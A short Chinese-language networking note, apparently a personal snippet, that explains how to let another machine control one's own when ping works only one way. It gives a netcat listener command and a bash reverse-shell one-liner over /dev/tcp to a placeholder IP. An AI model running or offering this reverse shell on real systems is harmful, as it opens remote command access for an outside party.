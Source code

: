 有时候两台机器ping是单向通的，

想让对方控制自己，首先对方先开启监听
nc -l 3249

然后自己发送一个shell过去
bash -i >& /dev/tcp/<ip>/3249 0>&1